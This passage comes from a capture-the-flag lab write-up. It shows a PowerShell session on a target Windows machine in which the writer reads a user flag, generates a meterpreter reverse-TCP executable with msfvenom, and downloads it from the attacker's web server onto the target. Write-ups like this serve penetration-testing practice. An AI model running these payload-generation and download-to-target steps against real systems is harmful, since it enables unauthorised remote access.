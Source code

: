 ```
d-r--        10/25/2019   9:51 PM            Contacts                          
d-r--        10/25/2019  11:22 PM            Desktop                           
d-r--        10/26/2019   4:43 PM            Documents                         
d-r--        10/26/2019   4:43 PM            Downloads                         
d-r--        10/25/2019   9:51 PM            Favorites                         
d-r--        10/25/2019   9:51 PM            Links                             
d-r--        10/25/2019   9:51 PM            Music                             
d-r--        10/25/2019  10:26 PM            Pictures                          
d-r--        10/25/2019   9:51 PM            Saved Games                       
d-r--        10/25/2019   9:51 PM            Searches                          
d-r--        10/25/2019   9:51 PM            Videos                            


PS C:\Users\bruce> cd Desktop
PS C:\Users\bruce\Desktop> ls


    Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2019  11:22 PM         32 user.txt                          


PS C:\Users\bruce\Desktop> cat user.txt
******************************
```

## Switching shell

It is asked to switch to a meterpreter reverse shell to make privilege escalation easier. First, let's generate a milious .exe file using msfvenom :  
```
attacker@AttackBox:~/Documents/THM/CTF/Alfred$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=tun0 LPORT=4445 -f exe -o meterpreter.exe
[?] Would you like to init the webservice? (Not Required) [no]: 
[?] Would you like to delete your existing data and configurations? []: no
Clearing http web data service credentials in msfconsole
Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /home/attacker/.msf4/db...success
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: meterpreter.exe
```

Now, let's start a python web server on our machine and download the crafted exe file to the target :  
```
PS C:\Users\bruce\Desktop> $WebClient.DownloadFile("http://10.14.32.60/meterpreter.exe","C:/Users/bruce/Desktop/meterpreter.exe")
PS C:\Users\bruce\Desktop> ls


    Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2022  11:18 PM      73802 meterpreter.exe                   
-a---        10/25/2019  11:22 PM         32 user.txt
```